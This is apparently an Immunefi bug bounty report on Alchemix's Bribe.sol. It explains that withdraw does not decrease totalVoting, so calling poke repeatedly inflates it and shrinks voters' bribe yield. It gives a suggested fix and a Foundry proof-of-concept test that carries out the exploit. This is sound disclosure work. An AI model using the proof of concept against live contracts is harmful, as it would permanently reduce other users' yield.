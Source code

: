 
# No accounting for totalVoting in `Bribe.sol::withdraw` function leads to loss of Yield

Submitted on Mon May 20 2024 20:17:27 GMT-0400 (Atlantic Standard Time) by @gladiator111 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31527

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Permanent freezing of unclaimed yield

## Description
## Brief/Intro
`Bribe.sol::withdraw` doesn't decrease `totalVoting` which can be exploited by a malicious user to permanently decrease yield.

## Vulnerability Details
In the function, `Bribe.sol::withdraw`,`totalVoting` is not decreased and checkpointed as expected. The Withdraw function is called when a user withdraws their vote. It should decrease totalVoting but it is not.
```solidity
    //Doesn't decrease TotalVoting
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
This can be exploited by malicious user, as the user can call poke repeatedly (as it doesn't have same Epoch constraints) to indefinitely increase totalSupply. When totalVoting is increased the earned yield will also decrease as follows
```solidity
reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;   //_priorSupply is totalVoting in the epoch
```
Users will earn far less yield. The more times the `poke` function is called, the less the yield will become.
`Note - It doesn't even need a malicious user as some users will call poke after voting which will decrease yield`
## Impact Details
The Yield will be permanently frozen/lost.

## Suggestions/ Recommendations
modify the function as follows
```diff
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;
+       totalVoting -= amount;

+       _writeVotingCheckpoint();
        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L319-329

        
## Proof of concept
## Proof of Concept
Paste the following in Voting.t.sol and run using
```bash
forge test --match-test testYieldLoss -vvvv --fork-url $FORK_URL
```
```solidity
function testYieldLoss() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);
        address bribeAddress1 = voter.bribes(address(sushiGauge));
        address bribeAddress2 = voter.bribes(address(balancerGauge));
        createThirdPartyBribe(bribeAddress1, bal, 1e19);
        createThirdPartyBribe(bribeAddress1, aura, 1e19);
        createThirdPartyBribe(bribeAddress2, bal, 1e19);
        createThirdPartyBribe(bribeAddress2, aura, 1e19);

        address[] memory pools = new address[](2);
        pools[0] = sushiPoolAddress;
        pools[1] = balancerPoolAddress;
        uint256[] memory weights = new uint256[](2);
        weights[0] = 5000;
        weights[1] = 5000;

        address[] memory bribes = new address[](2);
        bribes[0] = address(bribeAddress1); 
        bribes[1] = address(bribeAddress2); 

        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](2);                
        tokens[0][0] = bal;
        tokens[0][1] = aura;
        tokens[1] = new address[](2);                
        tokens[1][0] = bal;
        tokens[1][1] = aura;

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
        console.log(IBribe(bribeAddress1).totalVoting());
        hevm.prank(beef);
        voter.vote(tokenId2,pools,weights,0);
        console.log(IBribe(bribeAddress1).totalVoting());

        for(uint256 i =0;i<20;i++){                // calling poke again and again
        hevm.prank(admin);
        voter.poke(tokenId1);
        }
        console.log(IBribe(bribeAddress1).totalVoting());  //totalVotes increase significantly

        hevm.warp(block.timestamp + nextEpoch);

        uint256 beforeBalance = IERC20(bal).balanceOf(beef);
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);
        uint256 afterBalance = IERC20(bal).balanceOf(beef);
        console.log(afterBalance-beforeBalance);              //user gets far less yield
}
```